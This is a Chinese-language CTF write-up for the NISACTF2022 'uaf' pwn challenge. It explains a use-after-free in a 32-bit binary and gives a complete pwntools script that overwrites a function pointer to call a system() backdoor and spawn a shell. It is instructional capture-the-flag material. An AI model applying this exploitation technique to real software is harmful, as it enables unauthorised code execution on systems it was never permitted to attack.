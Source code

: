 ```yaml
---
title: NISACTF2022-uaf-wp
date: 2023-06-19 11:37:20
tags:
- CTF
- pwn
- heap
- uaf
- NISACTF2022
- nssctf
categories:
- pwn-wp
---
```

[相关资源](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/19/NISACTF2022-uaf-wp)  

## 0x1 分析

* PIE未开
* free完没有置空，存在uaf漏洞
* 存在后门函数`NICO(char* command)`，执行`system(command)`;
* page为结构体指针数组  结构体组成：char str[4] 和 void* func (各为32位)
* show(0) 会执行 (page[0]->func)(page[0]->str)

## 0x2 思路

* create page[0]
* del page[0]
* create page[1] （此时page[0]和page[1]相同，指向相同空间）
* edit page[1] ---->  'sh\0\0'+p32(NICO)   (即修改了page[0])
* show(0)

## 0x3 exp

```python
from pwn import *
pty = process.PTY
context(os='linux', arch='i386', log_level='debug')

proc = process("./bin", stdin=pty, stdout=pty)
# proc = remote("node4.anna.nssctf.cn", 28035)
belf = ELF("./bin")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

def add():
    sla(b':', b'1')

def dlt(idx):
    sla(b':', b'3')
    sla(b'page\n', str(idx).encode())

def shw(idx):
    sla(b':', b'4')
    sla(b'page\n', str(idx).encode())

def edt(idx, con):
    sla(b':', b'2')
    sla(b'page\n', str(idx).encode())
    sla(b'strings\n', con)

gscript = '''
    b main
    b create
    b del
    b show
    b edit
'''
# gdb.attach(proc, gdbscript=gscript)

NICO_addr = 0x08048642

add()
dlt(0)
add()
edt(1, b'sh\x00\x00'+p32(NICO_addr))
shw(0)

pi()
pause()

```


